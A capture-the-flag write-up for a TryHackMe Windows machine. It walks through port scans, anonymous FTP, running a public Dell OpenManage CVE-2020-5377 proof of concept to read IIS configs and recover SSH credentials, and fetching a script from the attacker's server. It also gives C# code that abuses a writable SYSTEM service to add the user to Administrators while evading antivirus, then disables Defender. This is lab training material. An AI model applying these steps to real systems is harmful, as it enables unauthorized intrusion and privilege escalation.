










# Hack Smarter Security - TryHackMe

## Writeup by Disturbante

We can start the machine with a network scan:
```bash
nmap -p- -Pn --min-rate=1900 10.10.112.204
```
output:
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
1311/tcp open  rxmon
3389/tcp open  ms-wbt-server
```
Now that we know the ports open we can perform a more accurate scan for footprinting:
```bash
nmap 10.10.112.204 -sC -sV -p21,80,22,1311,3389 --min-rate=1900
```
output:
```bash
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 0d:fa:da:de:c9:dd:99:8d:2e:8e:eb:3b:93:ff:e2:6c (RSA)
|   256 5d:0c:df:32:26:d3:71:a2:8e:6e:9a:1c:43:fc:1a:03 (ECDSA)
|_  256 c4:25:e7:09:d6:c9:d9:86:5f:6e:8a:8b:ec:13:4a:8b (ED25519)
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HackSmarterSec
1311/tcp open  ssl/rxmon?
| ssl-cert: Subject: commonName=hacksmartersec/organizationName=Dell Inc/stateOrProvinceName=TX/countryName=US
| Not valid before: 2023-06-30T19:03:17
|_Not valid after:  2025-06-29T19:03:17
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Sun, 17 Mar 2024 15:25:51 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|     <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Sun, 17 Mar 2024 15:25:57 GMT
|     Connection: close
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
|     <html>
|     <head>
|     <META http-equiv="Content-Type" content="text/html; charset=UTF-8">
|     <title>OpenManage&trade;</title>
|     <link type="text/css" rel="stylesheet" href="/oma/css/loginmaster.css">
|     <style type="text/css"></style>
|_    <script type="text/javascript" src="/oma/js/prototype.js" language="javascript"></script><script type="text/javascript" src="/oma/js/gnavbar.js" language="javascript"></script><script type="text/javascript" src="/oma/js/Clarity.js" language="javascript"></script><script language="javascript">
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-03-17T15:26:13+00:00; +1m13s from scanner time.
| ssl-cert: Subject: commonName=hacksmartersec
| Not valid before: 2024-03-16T15:16:40
|_Not valid after:  2024-09-15T15:16:40
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-17T15:26:09+00:00
```
From the open ports and the ssh banner we probably have to do with a windows machine.

# 21/FTP

I started with the low-hanging fruits, i went for anonymous login in port 21 ftp:
```bash
ftp anonymous@10.10.112.204  #no password
```
we had luck and in fact we got in, inside we found 2 files:
```bash
ls -la
```
output:
```bash
06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
06-28-23  03:00PM              1022126 stolen-passport.png
```
I downloaded both files with:
```bash
mget *
```
once they were on my machine i opened both, but didn't find anything interesting:
	

	
# 80/http

On port 80 http we have a static webpage, even after directory bruteforce and shortscan we didn't find anything interesting:
	

	

# 1311/Dell EMC OpenManage(HTTPS)

it's the first time that i have to interact with such service:
	

	
To understand better the service i googled online for some known vulnerabilities or exploits.<br>
I eventually found [this beautifull article](https://rhinosecuritylabs.com/research/cve-2020-5377-dell-openmanage-server-administrator-file-read/) explaining the multiple vulnerabilities that the application suffered.<br>
In the bootom of the article there is also a link to their GitHub with a python POC, for Authentication Bypass and Arbitrary File Read.
I downloaded the poc and tested it:
```bash
wget https://raw.githubusercontent.com/RhinoSecurityLabs/CVEs/master/CVE-2020-5377_CVE-2021-21514/CVE-2020-5377.py
python3 CVE-2020-5377.py <your_vpn_ip> 10.10.112.204:1311
```
Once the script is running we can try to get a notorious LFI file in windows (a bit like /etc/passwd in linux):
	

	

# Tyler (SSH)

Now that we can read files (with the webserver permissions) from the server we can start enumerating the machine.<br>
Keeping in mind that the webserver was an IIS i searched a Windows LFI wordlist, and i found one from [Hacktricks](https://raw.githubusercontent.com/carlospolop/Auto_Wordlists/main/wordlists/file_inclusion_windows.txt)<br>
If we search with Ctrl+f around for IIS and webserver related path we can find:
```cmd
C:/Windows/System32/inetsrv/config/applicationHost.config
C:/inetpub/wwwroot/web.config
```
Those two files are probably the most interesting ones, so let's try them in the LFI:
	

	
The first file returned a big wall of text with the file content, we can copy that file locally and analyze it.<br>
Inside we can see the configuration of the webserver running on port 80:
```xml
..SNIP..
<listenerAdapters>
            <add name="http" />
        </listenerAdapters>

        <log>
            <centralBinaryLogFile enabled="true" directory="%SystemDrive%\inetpub\logs\LogFiles" />
            <centralW3CLogFile enabled="true" directory="%SystemDrive%\inetpub\logs\LogFiles" />
        </log>

        <sites>
            <site name="hacksmartersec" id="2" serverAutoStart="true">
                <application path="/" applicationPool="hacksmartersec">
                    <virtualDirectory path="/" physicalPath="C:\inetpub\wwwroot\hacksmartersec" />
                </application>
                <bindings>
                    <binding protocol="http" bindingInformation="*:80:" />
                </bindings>
            </site>
            <site name="data-leaks" id="1">
                <application path="/">
                    <virtualDirectory path="/" physicalPath="C:\inetpub\ftproot" />
                </application>
                <bindings>
                    <binding protocol="ftp" bindingInformation="*:21:" />
                </bindings>
                <ftpServer>
                    <security>
                        <ssl controlChannelPolicy="SslAllow" dataChannelPolicy="SslAllow" />
                    </security>
                </ftpServer>
            </site>
..SNIP..
```
Now we can try to extract the actuall configuration for that webserver:
	

	
We have some credentials!!<br>

Now we can log in with ssh:
```bash
ssh tyler@10.10.141.152
```
Once we are inside the box we can do some manual enumeration, but i rapidly discovered that the machine is running a fully up-to-date antivirus solution, meaning that our tool set is restricted.<br>

# Administrator

With all that said i uploaded PrivescCheck.ps1 on the box since it usually doesn't trigger any defense mechanism, even if we have some problem we can run a simple AMSI bypass =) (ofc i wont share in the writeup).<br>
So i downloaded [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/raw/master/PrivescCheck.ps1) on my attacker machine then started a python server:
```bash
python3 -m http.server 80  #on kali machine
```
Then i downloaded the script on the victim windows machine:
```powershell
cd C:\Users\Tyler\Documents\
iwr http://10.8.79.118/PrivescCheck.ps1
. .\PrivescCheck.ps1
Invoke-PrivescCheck -Extended
```
We found something very interesting:
	

	
From this picture we can understand that we have full privilegese over this service and its path.<br>
The best part is that the service is running as NT AUTHORITY\SYSTEM, meaning we can set our binary in the service path and get code execution as SYSTEM!!<br>
In order to do that we need to prepare our payload, but remember: there is an AV in place.<br>
To evade security measure we can do something sneaky: run just normal windows commands to get highier privilege to our account, to bypass shellcode restiction we can compile our own c# .NET executable:
```c#
using System;
using System.Diagnostics;

class Program
{
    static void Main(string[] args)
    {
        // set the command string
        string command = "net localgroup Administrators tyler /add";

        // Create a powershell process
        ProcessStartInfo psi = new ProcessStartInfo
        {
            FileName = "powershell.exe",
            Arguments = $"-Command \"{command}\"",
            RedirectStandardOutput = true,
            RedirectStandardError = true,
            UseShellExecute = false,
            CreateNoWindow = true
        };

        // Start process
        Process process = Process.Start(psi);
        
        // Read fd
        string output = process.StandardOutput.ReadToEnd();
        string error = process.StandardError.ReadToEnd();

        // wait for process to end
        process.WaitForExit();
    }
}
```
With this code we can add the user Tyler to the administrators local group.let's compile it and upload to the machine:
```bash
mcs service.cs
python3 -m http.server 80
```
Now we can download the file from the victim machine, while we do that we can also remove the existing service binary:
	

	
Now, once we login again with ssh we have the full privileges and we can enter Administrator desktop to get the flag.<br>
But in order to make the things a little bit funnier i did a bit of post exploitation:
	

	
With a bit of syntax errors (LOL) we have our new RDP user; now we can try to login:
```bash
xfreerdp /v:10.10.34.162 /u:Admin /p:'P@$$word1' /dynamic-resolution /drive:kali,/home/kali/Pentest
```
We are inside the machine and we also have a drive mounted with all our tools, so the first thing to do is tamper with the AV:
	

	
Now that defender isn't a problem anymore we can submit the flag and clear the machine.
